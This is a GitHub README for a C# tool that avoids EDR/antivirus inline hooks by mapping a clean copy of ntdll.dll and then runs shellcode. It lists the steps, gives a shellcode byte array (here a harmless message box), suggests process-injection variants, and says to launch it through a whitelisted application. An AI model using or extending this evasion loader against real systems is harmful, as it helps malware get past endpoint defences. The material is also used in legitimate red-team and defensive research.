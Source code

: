 # NewNtdllBypassInlineHook

Blog link: working on it

- Base on my other projects down below.
	1. [MappingInjection](https://github.com/Kara-4search/MappingInjection_CSharp)
	2. [SysCall_ShellcodeLoader](https://github.com/Kara-4search/SysCall_ShellcodeLoad_Csharp)
	3. [HookDetection](https://github.com/Kara-4search/HookDetection_CSharp)
	4. [DInvoke_ShellcodeLoader](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp)
	
- Use a clean version of ntdll.dll, and import function from this ntdll.dll.
- Only testd on Win10/x64, may need some modifications on <MainFunction.cs> to works on x86.
- Steps
	1. Load a fresh new copy of ntdll.dll via file mapping.
	2. Load the copy into memroy and get a "BaseAddress".
	3. Use the "BaseAddress" and function's name, function's RVA to find function's address.
	4. Export the function's address and use the function via "delegate".
	5. Shellcode execute.

- **You could even modify the code to**:
	* Classic process injection.
	* MappingInjection(https://github.com/Kara-4search/MappingInjection_CSharp)
	* APCexecution(https://github.com/Kara-4search/APC_ShellcodeExecution_CSharp)
	* EarlyBirdInjection(https://github.com/Kara-4search/EarlyBirdInjection_CSharp)

- The shellcode below is a messagebox
```
			/* MessageBox */
			byte[] buf1 = new byte[323] {
				0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
				0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
				0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
				0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
				0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
				0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
				0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
				0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
				0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
				0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
				0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
				0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
				0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
				0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
				0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
				0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
				0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
				0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
				0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
				0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
				0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
				0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
```

## Usage
1. Just launch through a white-list application
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/NewNtdllBypassInlineHook_shellcodeexecute.png)

## TO-DO list
- Works on both x64/x86

## Update history
- NONE

## Reference link:
	1. https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea
	2. http://pinvoke.net/default.aspx/kernel32/CreateFile.html
	3. https://idiotc4t.com/defense-evasion/load-ntdll-too
	4. http://blog.leanote.com/post/snowming/a0366d1d01bf
	5. https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory
	6. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
	7. http://pinvoke.net/default.aspx/ntdll/NtCreateThreadEx.html
	8. https://blog.sektor7.net/#!res/2021/halosgate.md
	9. https://www.ired.team/offensive-security/defense-evasion/using-syscalls-directly-from-visual-studio-to-bypass-avs-edrs
	10. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread
	11. http://pinvoke.net/default.aspx/kernel32/CreateFile.html
	12. https://idiotc4t.com/defense-evasion/load-ntdll-too
	13. https://makosecblog.com/malware-dev/dll-unhooking-csharp/

